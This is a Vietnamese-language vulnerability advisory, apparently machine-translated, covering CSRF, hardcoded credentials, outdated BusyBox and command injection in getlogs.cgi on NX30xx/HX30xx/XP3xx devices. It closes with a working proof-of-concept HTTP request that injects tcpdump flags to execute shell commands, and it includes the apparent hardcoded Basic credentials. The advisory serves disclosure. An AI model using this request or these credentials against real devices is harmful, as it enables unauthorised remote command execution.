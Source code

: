 2. Truy vấn yêu cầu trên nhiều trang web (CSRF) (CVE-2021-39243) Giao diện web được sử dụng để đặt tất cả các cấu hình dễ bị tấn công các cuộc tấn công giả mạo yêu cầu trên nhiều trang web. Kẻ tấn công có thể thay đổi cài đặt theo cách này bằng cách dụ nạn nhân vào một trang web độc hại

3. Thông tin đăng nhập được mã hóa cứng cho Điểm cuối CGI (CVE-2021-39245) Tập lệnh getlogs.cgi được bảo vệ bằng htaccess độc quyền bằng mã cứng thông tin xác thực. Chúng được chia sẻ với tất cả các hình ảnh phần sụn từ dòng NX30xx, HX30xx và XP3xx.Các thông tin đăng nhập được mã hóa cứng này có thể được sử dụng để truy cập thiết bị không có tài khoản người dùng hợp lệ ở cấp ứng dụng và không thể thay đổi trong giao diện người dùng

Kết hợp với lỗ hổng 1), thỏa hiệp hoàn toàn ở cấp hệ thống với điều kiện tiên quyết duy nhất là truy cập mạng có thể được thực hiện

4. Các thành phần phần mềm lỗi thời và dễ bị tổn thương Quá trình quét tĩnh với Trình kiểm tra IoT đã tiết lộ các gói phần mềm lỗi thời được sử dụng trong chương trình cơ sở của thiết bị

Bộ công cụ BusyBox được sử dụng đã lỗi thời và chứa nhiều các lỗ hổng. Phiên bản lỗi thời đã được tìm thấy bởi Thanh tra IoT. Một trong những các lỗ hổng được phát hiện (CVE-2017-16544) đã được xác minh bằng cách sử dụng MEDUSA thời gian chạy phần sụn có thể mở rộng

## Proof of concept
Chèn lệnh bán mù được xác thực thông qua tiêm tham số (CVE-2021-39244) Trích xuất chương trình cơ sở sau của getlogs.cgi hiển thị lỗ hổng bảo mật:

```shell
TCPDUMP_IFACE=`echo "$QUERY_STRING" | sed -n 's/^.*tcpdump_iface=\([^&]*\).*$/\1/p' | sed "s/%20/ /g"`
TCPDUMP_COUNT=`echo "$QUERY_STRING" | sed -n 's/^.*tcpdump_count=\([^&]*\).*$/\1/p' | sed "s/%20/ /g"`
```

```bash
echo "tcpdump is running ..."
echo "<p>Please, wait the capture of $TCPDUMP_COUNT packets in $TCPDUMP_IFACE.</p>"
chrt -p -f 70 $$
tcpdump -i $TCPDUMP_IFACE -c $TCPDUMP_COUNT -w /tmp/capture.pcap
mount / -o rw,remount
ln -s /tmp/capture.pcap /usr/www/capture.pcap
mount / -o ro,remount
echo "<a href=\"capture.pcap\" download=\"$TCPDUMP_IFACE-capture.pcap\">Click here to download the capture file</a>"
```

Như có thể thấy, các biến $ TCPDUMP_COUNT và $ TCPDUMP_IFACE được sử dụng chưa được lọc trong lệnh tcpdump. Điều này có nghĩa là có thể tiêm tham số tùy ý cho lệnh tcpdump. Cờ -z cho tcpdump cho phép xác định một chương trình sẽ chạy trên tệp chụp. Hành động này có thể được sử dụng để thực hiện các lệnh tùy ý. Yêu cầu sau đưa các thông số vào, vì vậy tcpdump đó sẽ lắng nghe trên cổng UDP 1234 và sẽ thực thi tệp chụp với sh:

```powershell
GET /getlogs.cgi?logtype=tcpdump&tcpdump_iface=eth0&tcpdump_count=1%20-G%201%20-z%20sh%20-U%20-A%20udp%20port%201234 HTTP/1.1
Host: $IP
Authorization: Basic YWx0dXM6bmV4dG8xMjM0
```
